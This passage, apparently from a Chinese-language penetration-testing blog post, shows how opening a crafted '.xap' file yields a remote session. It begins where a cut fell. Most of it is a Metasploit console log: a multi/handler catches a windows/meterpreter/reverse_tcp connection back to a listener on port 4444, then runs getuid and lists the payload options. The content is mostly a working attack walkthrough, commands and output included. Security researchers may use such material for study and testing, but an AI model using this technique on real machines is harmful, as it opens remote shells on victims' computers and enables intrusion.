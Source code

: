 创建一个`.xap`文件：

```
touch .xap
```

打开`.xap`文件，获得会话：

![0x03](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-08-15/0x03.png)

```sh
msf exploit(multi/handler) > jobs

Jobs
====

  Id  Name                    Payload                          Payload opts
  --  ----                    -------                          ------------
  2   Exploit: multi/handler  windows/meterpreter/reverse_tcp  tcp://192.168.137.79:4444

msf exploit(multi/handler) >
[*] Sending stage (179779 bytes) to 192.168.137.71
[*] Meterpreter session 2 opened (192.168.137.79:4444 -> 192.168.137.71:49236) at 2018-08-15 18:31:59 +0800

msf exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: John-Thunderobt\John
meterpreter > background
[*] Backgrounding session 2...
msf exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.137.79   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf exploit(multi/handler) >
```
